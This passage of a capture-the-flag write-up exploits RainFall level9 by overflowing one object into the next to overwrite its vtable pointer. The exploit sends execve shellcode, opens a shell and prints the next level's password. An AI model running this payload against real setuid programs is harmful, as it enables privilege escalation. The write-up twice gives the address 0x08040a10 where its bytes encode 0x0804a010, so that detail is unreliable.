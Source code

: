 ### 13. Constructing the Final Payload
```bash
# Payload structure:
payload = (
    "\x10\xa0\x04\x08" +     # Fake vtable address (points to shellcode)
    shellcode +              # 28 bytes of shellcode  
    "A" * 76 +              # Padding to reach 108 bytes total
    "\x0c\xa0\x04\x08"      # Address where fake vtable is stored
)

# Memory layout explanation:
# 0x804a00c: [fake_vtable_addr] ← obj1 starts here, fake vtable points to next address
# 0x804a010: [shellcode.......]  ← Shellcode execution target (fake_vtable[0])
# 0x804a02c: [padding........]  ← Fill remaining 76 bytes to reach offset 108
# 0x804a078: [fake_vtable_ptr]  ← Overwrites obj2's vtable pointer (at 108 bytes)
```

**Payload Logic:**
1. **First 4 bytes**: Fake vtable address (0x08040a10) that points to shellcode
2. **Next 28 bytes**: Shellcode that executes /bin/sh
3. **Next 76 bytes**: Padding to reach exactly 108 bytes
4. **Final 4 bytes**: Address of fake vtable (0x0804a00c) to overwrite obj2's vtable

### 14. Execute the Exploit
```bash
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*76 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f54f3c40a5b04b60b03fd0f4b8adaf53df5bb93b8a88f4f4e0b92b5e0a6b32b3
```

**Success!**
1. **setAnnotation() called**: Copies payload to obj1's annotation buffer
2. **Buffer overflow**: 108+ bytes overflow reaches obj2's vtable pointer
3. **Vtable corruption**: obj2's vtable pointer overwritten with 0x0804a00c
4. **Virtual function call**: operator+() call loads fake vtable
5. **Fake vtable dereference**: Loads 0x08040a10 as function address
6. **Shellcode execution**: Jumps to shellcode, executes /bin/sh
7. **Shell obtained**: Running with elevated privileges

### 15. Understanding the Execution Flow
```bash
# Step-by-step execution analysis:
1. obj1->setAnnotation(payload) called
   - memcpy() copies 112 bytes to obj1's memory
   - Overflows beyond obj1 boundary into obj2

2. Memory state after setAnnotation():
   obj1: [fake_vtable][shellcode][padding...]
   obj2: [corrupted_vtable_ptr][number=6][annotation][padding...]

3. obj2->operator+(obj1) called
   - Loads obj2 pointer (0x0804a078)
   - Loads corrupted vtable pointer (0x0804a00c)
   - Loads function pointer from fake vtable (0x08040a10)
   - Calls shellcode instead of operator+()

4. Shellcode execution:
   - execve("/bin/sh", NULL, NULL)
   - Provides interactive shell with setuid privileges
```
